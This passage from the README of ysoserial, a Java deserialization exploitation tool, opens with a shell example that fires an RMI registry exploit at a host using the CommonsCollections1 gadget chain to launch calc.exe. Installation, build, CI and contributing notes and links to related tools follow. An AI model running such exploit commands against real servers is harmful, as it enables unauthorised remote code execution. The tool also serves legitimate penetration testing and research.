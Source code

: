 ```shell
$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from
[JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

Note that GitHub-hosted releases were removed in compliance with the
[GitHub Community Guidelines](
    https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
